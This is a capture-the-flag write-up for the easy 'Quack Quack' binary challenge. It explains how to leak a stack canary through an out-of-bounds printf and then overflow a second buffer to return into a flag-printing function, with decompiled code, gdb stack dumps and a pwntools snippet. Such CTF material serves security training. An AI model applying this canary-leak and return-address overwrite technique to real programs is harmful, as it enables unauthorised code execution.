

    	    <font size="6">Quack Quack</font>

​		4<sup>th</sup> May 2024 / Document No. D25.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Easy</font>

​		Classification: Official

 


# Synopsis

Quack Quack is an easy difficulty challenge that features leaking `canary` and overwrite the return address to perform a `ret2win` attack.

# Description

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm. Quack Quack, it's time to face the Duck!

## Skills Required

- Canaries, Buffer Overflow.

## Skills Learned

- Calculating stack layout to leak address and perform `ret2win`.

# Enumeration

First of all, we start with a `checksec`:  

```console
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./glibc/'
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program's interface:



We cannot understand many things from the interface so we need to dig deeper.

### Disassembly

Starting with `main()`:

```c
00401605  int32_t main(int32_t argc, char** argv, char** envp)

00401611      void* fsbase
00401611      int64_t rax = *(fsbase + 0x28)
00401625      duckling()
00401633      *(fsbase + 0x28)
0040163c      if (rax == *(fsbase + 0x28))
00401644          return 0
0040163e      __stack_chk_fail()
0040163e      noreturn
```

As we can see, `main` only calls `duckling()`. Taking a look there.

```c
004014a0  int64_t duckling()

004014a0  {
004014af      void* fsbase;
004014af      int64_t canary = *(uint64_t*)((char*)fsbase + 0x28);
004014be      int64_t buf1;
004014be      __builtin_memset(&buf1, 0, 0x70);
0040153d      printf("Quack the Duck!\n\n> ");
0040154c      fflush(__TMC_END__);
00401562      read(0, &buf1, 0x66);
00401578      char* str_res = strstr(&buf1, "Quack Quack ");
0040158c      if (str_res == 0)
0040158c      {
00401598          error("Where are your Quack Manners?!\n");
004015a2          exit(0x520);
004015a2          /* no return */
0040158c      }
004015c4      printf("Quack Quack %s, ready to fight t…", &str_res[0x20]);
004015da      int64_t buf2;
004015da      read(0, &buf2, 0x6a);
004015e9      puts("Did you really expect to win a f…");
004015fc      if (canary == *(uint64_t*)((char*)fsbase + 0x28))
004015fc      {
00401604          return (canary - *(uint64_t*)((char*)fsbase + 0x28));
004015fc      }
004015fe      __stack_chk_fail();
004015fe      /* no return */
004014a0  }
```

As we can see, there are 2 buffers, `buf1[0x70]` and `buf2[]` of unknown size so far. The juice of the challenge is these 2 lines:

```c
char* str_res = strstr(&buf1, "Quack Quack ");
printf("Quack Quack %s, ready to fight t…", &str_res[0x20]);
```

Our first input goes to `buf1` and we get a leak of `str_res[0x20]`. That means we can leak up to `0x20` from the end of the buffer where the string `Quack Quack ` is found in our input string. Luckily, we see that we can leak the `canary` address at such offset. After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
0040137f  int64_t duck_attack()
    
0040137f  {
0040138b      void* fsbase;
0040138b      int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
004013ae      int32_t fd = open("./flag.txt", 0);
004013ba      if (fd < 0)
004013ba      {
004013c6          perror("\nError opening flag.txt, please…");
004013d0          exit(1);
004013d0          /* no return */
004013ba      }
004013fe      while (true)
004013fe      {
00401406          char buf;
00401406          if (read(fd, &buf, 1) <= 0)
00401406          {
00401406              break;
00401406          }
004013e8          fputc(((int32_t)buf), __TMC_END__);
004013fe      }
0040140d      close(fd);
00401420      if (rax == *(uint64_t*)((char*)fsbase + 0x28))
00401420      {
00401428          return (rax - *(uint64_t*)((char*)fsbase + 0x28));
00401420      }
00401422      __stack_chk_fail();
00401422      /* no return */
0040137f  }
```

### Debugging 

Now, to prove all this theory we can check the debugging. Running the program and adding 8 "A". After `read`, we see the status of `$rsi`.

```gdb
pwndbg> x/20gx $rsi
0x7fffffffdd80:	0x4141414141414141	0x000000000000000a // 0x10
0x7fffffffdd90:	0x0000000000000000	0x0000000000000000 // 0x20
0x7fffffffdda0:	0x0000000000000000	0x0000000000000000 // 0x30
0x7fffffffddb0:	0x0000000000000000	0x0000000000000000 // 0x40
0x7fffffffddc0:	0x0000000000000000	0x0000000000000000 // 0x50
0x7fffffffddd0:	0x0000000000000000	0x0000000000000000 // 0x60
0x7fffffffdde0:	0x0000000000000000	0x0000000000000000 // 0x70
0x7fffffffddf0:	0x0000000000000000	0x5c9f27b935a3ab00 // 0x80
0x7fffffffde00:	0x00007fffffffde20	0x000000000040162a
0x7fffffffde10:	0x0000000000000000	0x5c9f27b935a3ab00
```

We see that the canary lies at `0x80` from the start of the buffer. As we can leak up to `0x20` bytes, we can find out that we leak the canary address (7 bytes and adding the last 0 due to `read`) at `0x71` bytes.

```python
r.sendlineafter('> ', b'A'* (0x65 - len('Quack Quack ')) + b'Quack Quack ')

r.recvuntil('Quack Quack ')

canary = u64(r.recv(7).rjust(8, b'\x00'))
```

After that, we need to calculate where we start to write our second input and check the `canary` and `return address` offsets.

```gdb
pwndbg> x/20gx $rsi
0x7fffffffdda0:	0x0000000a42424242	0x0000000000000000 // 0x10
0x7fffffffddb0:	0x0000000000000000	0x0000000000000000 // 0x20
0x7fffffffddc0:	0x0000000000000000	0x0000000000000000 // 0x30
0x7fffffffddd0:	0x0000000000000000	0x0000000000000000 // 0x40
0x7fffffffdde0:	0x0000000000000000	0x0000000000000000 // 0x50
0x7fffffffddf0:	0x0000000000000000	0x4d559fb679f97c00 // 0x60
0x7fffffffde00:	0x00007fffffffde20	0x000000000040162a
0x7fffffffde10:	0x0000000000000000	0x4d559fb679f97c00
0x7fffffffde20:	0x0000000000000001	0x00007ffff7c29d90
0x7fffffffde30:	0x0000000000000000	0x0000000000401605
```

We see that the `canary` is at `0x58` bytes from the start of the second buffer. Then a dummy address and then the `return address`. Knowing all this and the address of `duck_attack()`, we can craft our exploit.

# Solution

```console
Running solver remotely at 0.0.0.0 1337

Canary: 0x289b84d0de9a8500

Flag --> HTB{XXX}
```

